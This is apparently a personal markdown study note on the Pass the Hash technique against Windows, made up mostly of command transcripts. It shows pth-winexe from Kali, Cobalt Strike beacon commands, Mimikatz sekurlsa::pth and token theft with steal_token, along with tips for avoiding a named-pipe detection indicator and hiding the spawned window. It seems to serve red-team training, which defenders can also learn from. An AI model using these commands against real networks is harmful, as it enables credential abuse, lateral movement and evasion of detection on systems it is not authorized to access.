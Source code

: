 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```

pth
Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Pass the Hash]]  
___

## Description:  

### From Kali

```
kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd


E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>

```

### In CobaltStrike


Pass the Hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password, rather than the plaintext.

```
beacon> pth DEV\jking 4ffd3eabdce2e158d923ddec72de979e

user    : jking
domain    : DEV
program    : C:\Windows\system32\cmd.exe /c echo 1cbe909fe8a > \\.\pipe\16ca6d
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  5540
  |  TID  5976
[...snip...]

beacon> ls \\srv-2\c$

```

To avoid the `\\.\pipe\` indicator, we can execute Mimikatz manually and specify our own process.

```
beacon> mimikatz sekurlsa::pth /user:jking /domain:dev.cyberbotic.io /ntlm:4ffd3eabdce2e158d923ddec72de979e

user    : jking
domain    : dev.cyberbotic.io
program    : cmd.exe
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  6284
  |  TID  6288


```

If no `/run` parameter is specified, then `cmd.exe` is started.  However, this can actually cause the process window to appear on the users desktop.

Use a process that doesn't have a console or use `"powershell -w hidden"` to create a hidden window.

Then once the spawned process has started, impersonate it using `steal_token`.

```
beacon> steal_token 6284
[+] Impersonated NT AUTHORITY\SYSTEM
```

When finished, use `rev2self` and `kill` the spawned process.
```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes

beacon> kill 6284
[*] Tasked beacon to kill 6284
[+] host called home, sent: 12 bytes

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:57 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
